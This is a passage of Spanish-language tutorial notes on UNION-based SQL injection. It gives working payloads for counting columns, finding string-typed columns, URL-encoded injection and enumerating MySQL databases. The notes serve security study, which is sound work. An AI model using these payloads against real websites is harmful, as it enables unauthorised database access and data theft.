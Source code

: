 **METODO 2**

El segundo método implica enviar una serie de cargas útiles `UNION SELECT` que especifican un número diferente de valores nulos:

```SQL
'+UNION+SELECT+NULL--  
'+UNION+SELECT+NULL,NULL--  
'+UNION+SELECT+NULL,NULL,NULL--  
```

Si el número de nulos no coincide con el número de columnas, la base de datos devuelve un error, como por ejemplo:

```sql
All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.
```

>[!note]
>En bases de datos oracle tenemos que hacer referencia a una base de datos que viene por defecto para que este funcione: `' union select null from dual--'`

### Encontrar columnas con un tipo de datos útil en un ataque UNION de inyección SQL

Después de haber determinado el número de columnas requeridas, puede sondear cada columna para probar si puede contener datos de **cadena** enviando una serie de `UNION SELECT` cargas útiles que colocan un valor de cadena en cada columna a su vez. Por ejemplo, si la consulta devuelve cuatro columnas, debe enviar:

```sql
' UNION SELECT 'a',NULL,NULL,NULL--  
' UNION SELECT NULL,'a',NULL,NULL--  
' UNION SELECT NULL,NULL,'a',NULL--  
' UNION SELECT NULL,NULL,NULL,'a'--
```

### **NOTA**

Si la inyeccion es en la URL se puede usar `+` para concatenar el payload:

```http
http://www.paginaweb.com/contenidos.php?Id=-1+UNION+SELECT+1,2,3,4,5-- -
```

Si el tipo de datos de una columna no es compatible con los datos de la cadena, la consulta inyectada provocará un error en la base de datos, como:

```sql
Conversion failed when converting the varchar value 'a' to data type int.
```

### ENUMERAR LAS BASES DE DATOS

MySQL:

```bash
' UNION SELECT NULL,SCHEMA_NAME,NULL,NULL,NULL FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
